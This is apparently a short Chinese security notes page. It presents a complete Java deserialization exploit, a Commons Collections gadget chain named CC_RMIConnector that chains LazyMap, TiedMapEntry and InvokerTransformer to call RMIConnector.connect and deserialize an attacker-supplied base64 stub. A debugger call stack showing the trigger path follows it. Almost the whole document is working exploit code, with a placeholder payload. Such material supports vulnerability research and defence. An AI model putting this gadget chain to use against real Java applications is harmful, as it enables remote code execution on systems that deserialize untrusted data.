 完整 exp

```java
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.util.HashMap;
import java.util.Map;
import static util.Tool.*;

public class CC_RMIConnector {
    public static void main(String[] args) throws Exception {
        JMXServiceURL jmxServiceURL = new JMXServiceURL(&#34;service:jmx:rmi://&#34;);
        setFieldValue(jmxServiceURL, &#34;urlPath&#34;, &#34;/stub/base64string&#34;);
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);

        InvokerTransformer invokerTransformer = new InvokerTransformer(&#34;connect&#34;, null, null);

        HashMap&lt;Object, Object&gt; map = new HashMap&lt;&gt;();
        Map&lt;Object,Object&gt; lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, rmiConnector);

        HashMap&lt;Object, Object&gt; expMap = new HashMap&lt;&gt;();
        expMap.put(tiedMapEntry, &#34;Poria&#34;);
        lazyMap.remove(rmiConnector);

        setFieldValue(lazyMap,&#34;factory&#34;, invokerTransformer);

        run(expMap, &#34;debug&#34;, &#34;object&#34;);
    }
}
```

调用栈

```java
readObject:424, ObjectInputStream (java.io)
findRMIServerJRMP:2007, RMIConnector (javax.management.remote.rmi)
findRMIServer:1924, RMIConnector (javax.management.remote.rmi)
connect:287, RMIConnector (javax.management.remote.rmi)
connect:249, RMIConnector (javax.management.remote.rmi)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
transform:126, InvokerTransformer (org.apache.commons.collections.functors)
get:158, LazyMap (org.apache.commons.collections.map)
getValue:74, TiedMapEntry (org.apache.commons.collections.keyvalue)
hashCode:121, TiedMapEntry (org.apache.commons.collections.keyvalue)
hash:339, HashMap (java.util)
readObject:1410, HashMap (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1170, ObjectStreamClass (java.io)
readSerialData:2178, ObjectInputStream (java.io)
readOrdinaryObject:2069, ObjectInputStream (java.io)
readObject0:1573, ObjectInputStream (java.io)
readObject:431, ObjectInputStream (java.io)
```

